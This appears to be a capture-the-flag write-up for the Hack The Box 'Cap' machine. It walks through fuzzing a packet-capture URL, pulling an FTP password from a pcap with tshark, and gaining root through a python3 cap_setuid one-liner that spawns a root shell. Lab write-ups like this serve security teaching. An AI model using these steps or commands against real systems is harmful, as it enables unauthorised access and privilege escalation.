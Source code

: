 ```yaml
---
title: HTB - Cap
published: 2024-09-05
description: ''
image: './captin.png'
tags: [pcap,capabilities]
category: ''
draft: false 
---
```



# Cap 
___
_Diffeculty: EASY_</br>
___

+ kick starting with nmap we can find that the open ports are `21 22 80 `
+ noting unusal , testing ftp with anonymous login failed .
+ let's navigate to the main the website we find that the we are loged in by default as the user nathan and we have a few interesting options in a drop down menu.


![overflow](./image.png)

+ you can go check them all , `IP config ` contains the output of ipconfig command , `network status` contains that od netstat this is interesting but not really helpfull as we can't manipulate that in any form .
+ the last option left is `security snapchot pcap...` ok , going there we can see 

![/data/2](./image2.png)

+ intereting it looks like some packet capture functionality , but we can see we got 0 packets , and if you click download you can see that the pcap also contains 0 packets , the only left option for us is to maybe fuzz the url `/data/1` trying '/data/0' we get new value like this :
```
Data Type
	Value
Number of Packets
	72
Number of IP Packets
	69
Number of TCP Packets
	69
Number of UDP Packets
	0
```

+ nice now let's download this and see if we can find anything usefull , once downloaded you can open the file with wireshark or tshark 

+ using tshark you can see the content of the pcap with `tshark -r file.pcap`
+ looking around i found the creds for nathan 
```shell
╭─kali at kali in ~/CTF/HTB/cap
╰─○ tshark -r 0.pcap | grep FTP
   34   2.626895 192.168.196.16 → 192.168.196.1 FTP 76 Response: 220 (vsFTPd 3.0.3)
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
   38   4.126630 192.168.196.16 → 192.168.196.1 FTP 90 Response: 331 Please specify the password.
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
   42   5.432387 192.168.196.16 → 192.168.196.1 FTP 79 Response: 230 Login successful.
```
+ now let's log in and get the user flag.

+ next we need to become ROOT, to do so we need to get more informations about the machine , so get your linpeas.sh to the machine with python3 http.server or any  other method .

+ scrolling linpeas output you can see this line flaged with orange 

```shell
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```
+ it looks like python has some strong capailities 'cap_setuid' which is capable to change the user uid for example to root
+ if you look it up on GTFOBins search for python and goo down to capabilites section all the way down , you'll find the line that will get us root,executing that:

```shell
nathan@cap:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```
we goot roooot.

And that's pretty much it hope you enjoyed.